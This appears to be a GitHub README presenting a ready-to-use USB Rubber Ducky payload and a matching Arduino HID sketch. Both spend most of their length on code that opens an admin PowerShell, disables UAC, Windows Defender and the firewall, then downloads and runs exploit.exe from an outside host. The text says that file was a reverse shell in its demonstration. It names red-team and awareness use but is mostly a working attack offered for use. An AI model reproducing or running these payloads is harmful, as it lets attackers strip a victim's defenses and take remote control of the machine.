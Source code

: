 ## بسم الله الرحمن الرحيم

## Summary
A simple Rubber Duck Payload to _disabling Windows UAC, Windows Firewall, and Windows Defender._<br/>

In this payload, we also add a _function to download a file from server and executing it automatically_. As a note, at the PoC Video, the file was a reverse shell that will be connect into the Attacker machine when executed at the victim OS.<br/>

Generally, this script could help to conduct the Security Awareness at the end-user or conduct one of the red-team scenario.<br/>

## Note
* We using Arduino that supported the HID.<br/>
* _“You take responsibility for any laws you break with this”_ - Quote by D4rkR4bb1t<br/>

## The Payload
The payload are not the original one since we combine one payload with another payload. <br/>
Please kindly note, this payload was executed within 10 seconds. Logically, it could be modify to less than 10 seconds since we put the delay around 1000 - 1500 ms.<br/>

Payload:<br/>
```
REM Automate Turn-Off - Windows UAC, Windows Firewall, and Windows Defender
REM Also automate to Download the malware and connect with Reverse Shell
GUI r
DELAY 1000
REM Open the Powershell as Administrator
STRING powershell Start-Process powershell -Verb runAs
ENTER
DELAY 1500
ALT y
ENTER
DELAY 1000
REM Disabling the UAC
STRING Set-ItemProperty -Path REGISTRY::HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System -Name ConsentPromptBehaviorAdmin -Value 0
ENTER
DELAY 1000
REM Disabling the Firewall Part 1
STRING Set-MpPreference -DisableRealtimeMonitoring $true
ENTER
DELAY 1000
REM Disabling the Firewall Part 2
STRING Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False
ENTER
DELAY 1000
REM Disabling the Virus and Threat Protection
STRING New-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Name DisableAntiSpyware -Value 1 -PropertyType DWORD -Force
ENTER
DELAY 1000
REM Moving into C Directory
STRING cd C:\
ENTER
REM Download the Prepared Malware
STRING $WC = New-Object System.Net.WebClient
ENTER
STRING $WC.DownloadFile("http://192.168.13.129/exploit.exe","C:\exploit.exe")
ENTER
DELAY 500
REM Execute the Downloaded Malware
STRING .\exploit.exe
ENTER
DELAY 1000
ENTER
STRING exit
ENTER
```

## The Code for Arduino
This code was design for the one that used the Arduino board<br/>

Code:<br/>
```
/*
 * Generated by Dckuino.js, an open source project !
 * Automate to Turn Off the Windows UAC, Windows Firewall, and Windows Defender at Windows 10 & Connect to Reverse Shell within 10 sec
 * Just modify the delay parameter to make it more fast
 */

#include "Keyboard.h"

void typeKey(int key)
{
  Keyboard.press(key);
  delay(50);
  Keyboard.release(key);
}

/* Init function */
void setup()
{
  // Begining the Keyboard stream
  Keyboard.begin();

  // Wait 500ms
  delay(500);

  Keyboard.press(KEY_LEFT_GUI);
  Keyboard.press('r');
  Keyboard.releaseAll();

  delay(1000);

  Keyboard.print("powershell Start-Process powershell -Verb runAs");

  typeKey(KEY_RETURN);

  delay(1500);

  Keyboard.press(KEY_LEFT_ALT);
  Keyboard.press('y');
  Keyboard.releaseAll();

  typeKey(KEY_RETURN);

  delay(1000);

  Keyboard.print("Set-ItemProperty -Path REGISTRY::HKEY_LOCAL_MACHINE\\Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\System -Name ConsentPromptBehaviorAdmin -Value 0");

  typeKey(KEY_RETURN);

  delay(1000);

  Keyboard.print("Set-MpPreference -DisableRealtimeMonitoring $true");

  typeKey(KEY_RETURN);

  delay(1000);

  Keyboard.print("Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False");

  typeKey(KEY_RETURN);

  delay(1000);

  Keyboard.print("New-ItemProperty -Path \"HKLM:\\SOFTWARE\\Policies\\Microsoft\\Windows Defender\" -Name DisableAntiSpyware -Value 1 -PropertyType DWORD -Force");

  typeKey(KEY_RETURN);

  delay(1000);

  Keyboard.print("cd C:\\");

  typeKey(KEY_RETURN);

  Keyboard.print("$WC = New-Object System.Net.WebClient");

  typeKey(KEY_RETURN);

  Keyboard.print("$WC.DownloadFile(\"http://192.168.13.129/exploit.exe\",\"C:\\exploit.exe\")");

  typeKey(KEY_RETURN);

  delay(500);

  Keyboard.print(".\\exploit.exe");

  typeKey(KEY_RETURN);

  delay(1000);

  typeKey(KEY_RETURN);

  Keyboard.print("exit");

  typeKey(KEY_RETURN);

  // Ending stream
  Keyboard.end();
}

/* Unused endless loop */
void loop() {}
```

## References:
*  <a href="https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Payloads"> Collection of Payload from Hak5darren Repository</a>
* <a href="https://gallery.technet.microsoft.com/scriptcenter/Disable-UAC-using-730b6ecd"> Disabling Windows UAC</a>
* <a href="https://theitbros.com/managing-windows-defender-using-powershell/"> Disabling Windows Defender and Windows Firewall</a>
* <a href="https://www.faqforge.com/windows/turn-off-firewall-using-powershell-command-prompt/"> Disabling Windows Firewall - 2nd Reference</a>
* <a href="https://blog.jourdant.me/post/3-ways-to-download-files-with-powershell"> Download a File from Server</a>

## PoC Video:
```
https://www.youtube.com/watch?v=bR55mTpU3z8
```
